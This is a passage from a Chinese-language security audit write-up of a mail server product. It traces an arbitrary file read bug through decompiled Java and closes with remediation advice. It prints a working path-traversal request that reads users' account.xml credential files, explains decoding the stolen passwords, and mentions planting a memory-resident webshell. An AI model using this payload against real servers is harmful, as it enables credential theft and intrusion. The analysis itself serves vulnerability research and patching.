

可以直接打个内存马



任意文件读取
------

这是一个老洞了，之前提到了每个用户目录下存在`account.xml`文件，里面包含账号密码等信息，可以通过文件读取的方式来获得，是个前台洞。

往上找到公开的的 payload 如下：

```
 /viewfile?type=cardpic&mbid=1&msgid=2&logtype=3&view=true&cardid=/accounts/root/postmaster&cardclass=../&filename=/account.xml


```

实际跟了一下代码发现不需要这么多参数

首先根据 servlet 走到`某mail.web.ViewFile`



然后是不论如何都会走到`GetFile.getfile`，由于该方法代码量巨大，这里就不贴了。

根据`type=cardpic`直接定位到下面的位置

这里拿了`cardid`和`cardclass`这两个参数，经过`GreetingCard.getCardRealPath`处理，这两个参数用于计算文件的实际路径得到`path`：

```
path = GreetingCard.getCardRealPath(cardclass, cardid);


```

下面还有一个`filename`变量，往上看看是怎么来的

从请求中查找`filename=/`的位置并拿到值，然后分别赋值给`fisoname`、`ContenttypeName`和`fname`

随后构造完整的文件路径

```
if (AllFileName == null)
    AllFileName = String.valueOf(path) + SysConts.FILE_SEPARATOR + fname;


```

由`path`（之前由`cardclass`和`cardid`计算得到）和`fname`（之前由`filename`赋值得到）组成。

最后，这些参数被传递给`FileManager.GetFile`方法，其中`AllFileName`是完整的文件路径。

`FileManager.GetFile`方法如下：

```
public static void GetFile(String getType, String base_dir, String filefullname, String orgFileName, HttpServletRequest httpservletrequest, HttpServletResponse httpservletresponse, String ContenttypeName, long lStartPos, long lLen) throws IOException {
    int i = filefullname.lastIndexOf(".");
    String s1 = "";
    boolean flag = false;
    if (i > 0 && i != filefullname.length() - 1)
      s1 = filefullname.substring(i + 1); 
    String tempFileName = MailCoder.ext_decode_str(ContenttypeName);
    String s3 = getContentType(tempFileName);
    flag = false;
    int j = filefullname.lastIndexOf(separator);
    if (j > 0 && j != filefullname.length() - 1) {
      String s2 = filefullname.substring(j + 1);
    } else {
      String s2 = filefullname;
    } 
    httpservletresponse.setContentType(s3);
    if (getType.equals("gf"))
      setHeader(orgFileName, httpservletrequest, httpservletresponse); 
    ServletOutputStream servletoutputstream1 = httpservletresponse
      .getOutputStream();
    File f = new File(filefullname);
    long lLenx = lLen;
    if (lLenx <= 0L) {
      lLenx = f.length();
      lLenx -= lStartPos;
    } 
    httpservletresponse.setContentLength((int)lLenx);
    dumpFile(filefullname, (OutputStream)servletoutputstream1, lStartPos, lLen);
    servletoutputstream1.flush();
    httpservletresponse.setStatus(200);
    httpservletresponse.flushBuffer();
    servletoutputstream1.close();
  }


```

`filefullname`，也就是前面说的`AllFileName`完整路径，通过`FileManager.dumpFile`方法

```
private static boolean dumpFile(String s, OutputStream outputstream, long lStartPos, long lLen) {
    byte[] abyte0 = new byte[4096];
    int iBufLen = 4096;
    boolean flag = true;
    try {
      FileInputStream fileinputstream = new FileInputStream(s);
      if (lStartPos > 0L)
        fileinputstream.skip(lStartPos); 
      int i = 0;
      long lRead = 0L;
      int iCurRead = iBufLen;
      while ((i = fileinputstream.read(abyte0, 0, iCurRead)) != -1) {
        outputstream.write(abyte0, 0, i);
        if (lLen > 0L) {
          lRead += i;
          if (lRead == lLen)
            break; 
          iCurRead = (int)(lLen - lRead);
          if (iCurRead > iBufLen)
            iCurRead = iBufLen; 
        } 
      } 
      fileinputstream.close();
    } catch (Exception _ex) {
      flag = false;
    } 
    return flag;
  }


```

最终通过`dumpFile`来读取并输出`account.xml`到浏览器

去掉`3D`，然后 basedecode 就行

修复建议
----

1、针对于`api.jsp`可以加上一些验证字段来防止爆破，或者根据业务场景避免外部直接访问。 2、针对于 sql 注入问题，可在全局对 sql 进行预编译；校验过滤外部传入的参数等。

结尾
--

1、无凭据情况下只能通过爆破或者读取配置文件来获得凭据，读取配置文件这个漏洞官方已经发布补丁，而暴力破解接口本身算不上什么漏洞，最多算是一个攻击入口。

2、登录后的 sqli 比较多，但是依赖登录。从代码层面看实际上存在大量的 sql 注入，但是很多方法中的 sql 语句里面的数据表实际并不存在 (指直接安装完不作别的配置的情况下)，所以很多方法中的 sqli 实际无法利用。建议审计过程中直接根据存在的数据表名去全局搜索 sql 语句然后回溯。

3、内置的 mysql 是 5.x 版本的，想进行监控 sql 相关的操作得用对应的驱动

4、还有挺多反射 xss 的，没啥作用就不写了。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
